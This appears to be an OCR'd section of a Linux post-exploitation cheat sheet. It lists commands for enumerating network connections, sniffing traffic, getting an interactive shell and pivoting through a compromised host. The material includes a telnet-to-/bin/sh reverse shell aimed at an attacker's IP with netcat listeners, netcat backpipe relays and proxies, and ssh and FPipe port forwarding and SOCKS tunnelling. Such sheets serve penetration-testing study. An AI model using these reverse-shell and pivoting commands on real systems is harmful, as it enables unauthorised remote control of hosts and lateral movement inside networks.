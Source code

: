 What other users & hosts are communicating with the system?

    lsof -i
    lsof -i :80
    grep 80 /etc/services
    netstat -antup
    netstat -antpx
    netstat -tulpn
    chkconfig --list
    chkconfig --list | grep 3:on
    last
    w

Whats cached? IP and/or MAC addresses

    arp -e
    route
    /sbin/route -nee

Is packet sniffing possible? What can be seen? Listen to live traffic

    tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
Note: tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]

Have you got a shell? Can you interact with the system?

    nc -lvp 4444    # Attacker. Input (Commands)
    nc -lvp 4445    # Attacker. Ouput (Results)
    telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # On the targets system. Use the attackers IP!
Note: http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

Is port forwarding possible? Redirect and interact with traffic from another view

Note: http://www.boutell.com/rinetd/

Note: http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch

Note: http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip

Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]

    FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
Note: ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]

    ssh -L 8080:127.0.0.1:80 root@192.168.1.7    # Local Port
    ssh -R 8080:127.0.0.1:80 root@192.168.1.7    # Remote Port
Note: mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe

    mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe    # Port Relay
    mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe    # Proxy (Port 80 to 8080)
    mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe    # Proxy monitor (Port 80 to 8080)

Is tunnelling possible? Send commands locally, remotely

    ssh -D 127.0.0.1:9050 -N [username]@[ip]
    proxychains ifconfig
    